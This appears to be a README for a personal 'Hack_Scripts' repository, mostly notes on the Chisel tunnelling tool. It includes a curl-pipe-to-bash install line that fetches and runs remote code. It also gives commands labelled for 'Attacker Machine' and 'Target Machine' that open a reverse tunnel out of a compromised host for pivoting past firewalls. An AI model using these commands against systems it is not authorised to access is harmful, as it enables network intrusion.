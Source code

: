 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

## Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
  - server - runs chisel in server mode.
  - client - runs chisel in client mode.
    
  Read more:
  https://github.com/jpillora/chisel
    
`chisel server -p 9000 --reverse -v`   >> Run in Attacker Machine  
`chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>`   >> Run in Target Machine
 

# 
